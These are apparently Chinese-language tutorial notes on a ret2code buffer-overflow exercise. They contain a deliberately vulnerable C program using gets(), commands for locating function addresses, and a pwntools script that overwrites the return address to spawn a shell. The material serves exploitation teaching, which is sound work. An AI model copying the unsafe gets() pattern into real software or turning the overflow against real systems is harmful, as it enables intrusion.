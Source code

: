 #### bof-ret2code

- 透过 Buffer Overflow 改赞 return address

- 将 return address 改到 code 中任意处

- 须关闭 PIE

```c
# include<stdio.h>
# include <stdlib.h>
void shell(){
    system("/bin/sh");
}

int main(){
    char buffer[8];
    gets(buffer);
    return 0;
}
```

![](imgs/pwn_stack07.jpg)

##### readelf

```sh
# header
readelf -h hide_and_seek
# Section Headers:
readelf -S hide_and_seek
readelf -s hide_and_seek # symbol table / functions

```

##### 如何找到 address? 如何查找函数

三种方式

```sh
sh$ objdump -M intel -d filename | less
sh$ objdump -d filename
sh$ objdump -d -j .plt ./ret2libc3 | grep system     //查找system的plt地址
sh$ ROPgadget --binary ./ret2libc3 --string "/bin/sh"       // 查找bin_sh字符串地址
gdb-peda$ p shell
r2$ afl~shell
```

反汇编语法设置默认为 AT&T 改为 Intel 语法： 相当于-M

```
set disassembly-flavor intel>~/.gdbinit
```

retn 返回 stack 栈顶的地址

```python
from pwn import *
r = process('./bof')

offset = 0x7fffffffe718 - 0x7fffffffe700
hidden = 0x00400566

r.sendline('a'*offset + p64(hidden))

r.interactive()
```
